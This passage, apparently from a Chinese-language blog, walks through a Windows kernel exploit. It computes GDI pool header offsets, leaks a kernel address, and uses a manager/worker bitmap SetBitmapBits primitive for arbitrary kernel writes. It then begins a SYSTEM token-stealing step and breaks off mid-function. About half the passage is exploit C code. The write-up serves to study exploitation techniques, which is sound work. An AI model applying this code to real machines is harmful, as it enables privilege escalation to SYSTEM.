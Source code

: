那么 Gh04 header 的偏移就是 `0x1000 - 0xe30 = 0x1d0`，同理，Gh05 header 的偏移为
`0x1d0 + 0xbc0 = 0xd90`。然后泄露内核地址的话，在 region 对象中有这样一个值：

![]({{site.baseurl}}/images/2018-10-17/offset8.png)

这个值为这个值的地址本身，且在 region 对象 +0x30 偏移处，那么就可以计算出当前
Gh04 对象的地址，然后把这个地址最低位字节置零，倒数第二位减去 0x10 回到上一页的起始位置：

```c
addr1[0x0] = 0;
int u = addr1[0x1];
u = u - 0x10;
addr1[1] = u;
```

同理也可以计算出 Gd05 对象的地址：

```c
addr1[0] = 0xc0;
int y = addr1[1];
y = y + 0xb;
addr1[1] = y;
```

然后我们用 manager bitmap 对象调用 SetBitmapBits 修改 worker 的 pvScan0 为 region 
对象的地址，再用worker 调用 SetBitmapBits 将正确的 Pool Header 写回去，Bitmap 对象同理。

```c
void SetAddress(BYTE* address) {
	for (int i = 0; i < sizeof(address); i++) {
		bits[0xdf0 + i] = address[i];
	}
	SetBitmapBits(hManager, 0x1000, bits);
}

void WriteToAddress(BYTE* data) {
	SetBitmapBits(hWorker, sizeof(data), data);
}

SetAddress(addr1);
WriteToAddress(Gh04);
```	

# Stealing SYSTEM Process Token

接下来就是最后一部分操作了，一些资料里已经详细说明了如何替换 System Token 实现提权的方法，
这里也简单描述一下。`ntoskrnl` 中的 `PsInitialSystemProcess` 存储了 `SYSTEM` 进程的 `EPROCESS`
地址，这里使用 `EnumDeviceDrivers` 来获取 `ntoskrnl` 的基址，另外也可以通过
`NtQuerySystemInformation(11)` 来获取 `ntoskrnl` 的基址。

```c
// Get base of ntoskrnl.exe
ULONG64 GetNTOsBase()
{
	ULONG64 Bases[0x1000];
	DWORD needed = 0;
	ULONG64 krnlbase = 0;
	if (EnumDeviceDrivers((LPVOID *)&Bases, sizeof(Bases), &needed)) {
		krnlbase = Bases[0];
	}
	return krnlbase;
}

// Get EPROCESS for System process
ULONG64 PsInitialSystemProcess()
{
	// load ntoskrnl.exe
```